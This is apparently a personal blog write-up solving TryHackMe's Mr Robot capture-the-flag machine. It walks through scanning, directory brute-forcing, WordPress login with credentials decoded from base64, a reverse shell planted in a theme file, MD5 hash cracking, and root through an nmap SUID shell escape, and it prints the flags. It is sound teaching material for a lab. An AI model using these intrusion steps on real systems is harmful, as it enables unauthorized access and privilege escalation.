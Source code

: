 ```yaml
---
tagline: mrrobotctf
title: Mr Robot CTF [Writeup]
description: One of the top-tier challenges on TryHackMe, revered as a GOAT in THM Machines.
banner: /blog/mrrobotctfbanner.jpeg/
banner_alt: redrum redrum all we know is redrum
date: '2024-03-3'
---
```


## Foreword

I've come to understand that many people don't grasp my write-ups due to a knowledge gap. Therefore, I'll be explaining every step along the way. Hope you enjoy as I s!

## Nmap Scan

- What is Nmap? Nmap is a tool used for checking open ports in a server. This is typically the first step when tackling a machine. Below is the command I will be using.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.199.158
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 23:06 EST
Nmap scan report for 10.10.199.158
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```

- We now know that there is a closed SSH port, an open HTTP port indicating the presence of a website accessible through a browser, and port 443 running both SSL and HTTP.

## Accessing the website

![Image showing the website](/blog/mrrobotctf/website.png 'Fig.1')

- Damn, for a machine the website is well built. After some poking and prodding, I don't seem to see anything on the homepage. Next step is a Dirsearch.

## Dirsearch

- A Directory Search involves brute-forcing to discover existing directories, helping you understand your attack surface.

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ dirsearch -u 10.10.199.158 --exclude-status 301,400,403,404,408
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/_10.10.199.158/_24-03-03_00-09-46.txt

Target: https://10.10.199.158/

[00:09:47] Starting:                                                                                  
[00:11:37] 302 -    0B  - /dashboard  ->  https://10.10.199.158/wp-admin/   
[00:11:37] 302 -    0B  - /dashboard/  ->  https://10.10.199.158/wp-admin/  
[00:11:51] 200 -    0B  - /favicon.ico                                      
[00:12:10] 200 -  504KB - /intro                                            
[00:12:15] 200 -  158B  - /license                                          
[00:12:15] 200 -  158B  - /license.txt                                      
[00:12:18] 302 -    0B  - /login  ->  https://10.10.199.158/wp-login.php    
[00:12:18] 302 -    0B  - /login/  ->  https://10.10.199.158/wp-login.php   
[00:12:55] 200 -   64B  - /readme                                           
[00:12:55] 200 -   64B  - /readme.html                                      
[00:12:58] 200 -   41B  - /robots.txt                                       
[00:13:08] 200 -    0B  - /sitemap                                          
[00:13:08] 200 -    0B  - /sitemap.xml.gz                                   
[00:13:08] 200 -    0B  - /sitemap.xml
[00:13:39] 302 -    0B  - /wp-admin/  ->  https://10.10.199.158/wp-login.php?redirect_to=https%3A%2F%2F10.10.199.158%2Fwp-admin%2F&reauth=1
[00:13:39] 200 -   21B  - /wp-admin/admin-ajax.php
[00:13:39] 500 -    3KB - /wp-admin/setup-config.php
[00:13:40] 200 -    0B  - /wp-config.php                                    
[00:13:40] 200 -    0B  - /wp-content/                                      
[00:13:41] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[00:13:41] 500 -    0B  - /wp-content/plugins/hello.php                     
[00:13:41] 500 -    0B  - /wp-includes/rss-functions.php                    
[00:13:41] 200 -    1KB - /wp-login                                         
[00:13:41] 200 -    1KB - /wp-login.php
[00:13:41] 200 -    1KB - /wp-login/                                        
[00:13:41] 302 -    0B  - /wp-signup.php  ->  https://10.10.199.158/wp-login.php?action=register
[00:13:41] 200 -    0B  - /wp-cron.php                                      
[00:13:43] 405 -   42B  - /xmlrpc                                           
[00:13:43] 405 -   42B  - /xmlrpc.php
                                                                             
Task Completed
```

## Key 1

- Looking through all the directories, *robots.txt* has the first key for us

![Image showing the robots.txt](/blog/mrrobotctf/robotstxt.png 'Fig.2')

## Key 2

- When we look in */license*, we find the string "ZWxsaW90OkVSMjgtMDY1Mgo=" which seems to be base64

![Image showing the output](/blog/mrrobotctf/base64output.png 'Fig.3')

- Lets login with that in */login*

![Image showing we r in](/blog/mrrobotctf/dashboard.png 'Fig.4')

- And we are in! Lets exploit it.

- I started by using the same reverse shell script I used in [RootMe](https://www.vipinb.xyz/blog/rootme#obtaining-the-user-flag) and editing a random theme file with the php code and I got user access!

```bash:Terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Ruh roh, can't go in. Lets crack that password though.

![Image showing cracked password](/blog/mrrobotctf/hashcracked.png 'Fig.5')

```bash:Terminal
daemon@linux:/$ su robot
su robot
su: must be run from a terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz             
```

- And I did get the flag!

## Key 3

- I ran ```find / -user root -perm -4000 -exec ls -ldb {} \;``` to see exploitable SUID Binaries and nmap was one. Using GTFOBINS I found that you can run ```nmap --interactive``` and say ```!sh``` to get a shell. 

```bash:Terminal
robot@linux:/$ nmap --interactive               
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)